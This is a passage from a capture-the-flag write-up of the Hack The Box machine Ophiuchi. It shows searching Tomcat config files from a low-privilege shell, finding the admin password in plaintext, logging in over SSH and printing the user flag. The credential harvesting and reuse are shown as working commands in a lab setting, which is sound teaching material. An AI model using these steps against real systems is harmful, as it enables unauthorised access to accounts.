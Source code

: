 And we got ```tomcat``` user shell, We can see ```admin``` user in home directory, Let's try to find ```admin``` user password.

After running [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) I found the tomcat config directory on path ```/opt/tomcat/conf```, Now let's try to search for ```admin```:

```console
tomcat@ophiuchi:/$ ls /home
admin
tomcat@ophiuchi:/$ cd /opt/tomcat/conf
tomcat@ophiuchi:~/conf$ grep -r "admin" .
grep -r "admin" .
./tomcat-users.xml:<user username="admin" password="whythereisalimit" roles="manager-gui,admin-gui"/>
```

Great, we found ```admin``` password: ```password="whythereisalimit"```, Let's try it:
```console
┌─[evyatar@parrot]─[/hackthebox/Ophiuchi/]
└──╼ $ssh admin@10.10.10.227
The authenticity of host '10.10.10.227 (10.10.10.227)' can't be established.
ECDSA key fingerprint is SHA256:OmZ+JsRqDVNaBWMshp7wogZM0KhSKkp1YmaILhRxSY0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.227' (ECDSA) to the list of known hosts.
admin@10.10.10.227's password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-51-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 20 Mar 2021 01:01:35 AM UTC

  System load:             0.0
  Usage of /:              19.9% of 27.43GB
  Memory usage:            17%
  Swap usage:              0%
  Processes:               215
  Users logged in:         0
  IPv4 address for ens160: 10.10.10.227
  IPv6 address for ens160: dead:beef::250:56ff:feb9:4c57


176 updates can be installed immediately.
56 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Jan 11 08:23:12 2021 from 10.10.14.2
admin@ophiuchi:~$ cat user.txt
27eb7d9f9f1532ee4d0214347ba1387c
```
